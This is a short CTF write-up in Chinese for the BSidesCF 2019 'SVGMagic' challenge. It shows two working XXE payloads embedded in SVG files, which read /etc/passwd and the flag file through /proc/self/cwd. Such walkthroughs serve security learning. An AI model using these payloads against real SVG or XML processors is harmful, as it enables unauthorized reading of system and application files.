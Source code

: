 # [BSidesCF 2019]SVGMagic

上传SVG文件会进行渲染，并显示PNG渲染结果。

SVG实际上是一个XML文档。因此可能出现XXE问题。我们试一下。翻[参考文档](https://developer.mozilla.org/en-US/docs/Web/SVG/Element)SVG标签中能插入元素的有<text>，所以直接写一个进去：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<svg width="512px" height="190px" viewBox="0 0 512 190" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" preserveAspectRatio="xMidYMid">
    <g>
		<text x="0" y="15" fill="red">&xxe;</text>
	</g>
</svg>
```

`/proc/self/cwd/`代表当前路径。构造`/proc/self/cwd/flag.txt`读文件。

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///proc/self/cwd/flag.txt" >]>
<svg width="512px" height="190px" viewBox="0 0 512 190" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" preserveAspectRatio="xMidYMid">
    <g>
		<text x="0" y="15" fill="red">&xxe;</text>
	</g>
</svg>
```

![image-20210807110230999]([BSidesCF 2019]SVGMagic/image-20210807110230999.png)